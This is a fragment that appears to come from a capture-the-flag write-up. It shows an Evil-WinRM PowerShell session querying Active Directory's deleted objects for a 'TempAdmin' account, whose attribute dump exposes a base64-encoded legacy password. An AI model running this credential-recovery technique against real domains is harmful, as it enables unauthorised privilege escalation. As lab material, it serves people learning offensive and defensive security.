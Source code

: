 Filtering for the Object TempAdmin 

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property * | where-object DisplayName -eq -Value "TempAdmin"


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

